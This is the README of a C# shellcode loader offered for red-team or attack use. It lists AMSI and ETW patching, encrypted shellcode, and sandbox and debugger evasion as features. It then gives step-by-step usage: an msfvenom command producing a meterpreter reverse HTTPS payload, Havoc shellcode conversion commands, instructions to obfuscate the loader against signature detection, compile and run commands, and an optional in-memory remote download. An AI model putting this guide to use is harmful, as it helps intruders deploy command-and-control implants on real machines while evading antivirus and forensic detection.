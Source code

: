 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AMSI bypass (patching technique)
  - ETW bypass in user-mode (patching 'EtwEventWrite')
  - Shellcode encryption (AES-256 / CBC mode)
  - Shellcode handling => the encrypted shellcode is Base64-encoded and loaded from a local file
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o stageless-shellcode.bin

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2. Encrypt the shellcode using AES-256 encryption in CBC mode, then Base64-encode the encrypted output and save it to a file.
 ```
Examples
[*] AES encryption code - https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab4/3.cs
[*] Base64 encoding
    byte[] EncryptedShellcodeBytes = { ... };
    string Base64EncodedData = Convert.ToBase64String(EncryptedShellcodeBytes);
    Console.WriteLine(Base64EncodedData);
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Add an icon file and assembly attributes
    - Etc.

  - STEP 4. Compile the C# shellcode loader 
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation in Step 3.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  - STEP 6. Execution
```
[*] Command: loader.exe <domain name> <C:\filepath\base64-shellcode-file.txt> <AES key>
[*] Command: loader.exe lab.local C:\temp\base64-shellcode.txt superkey
    Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0
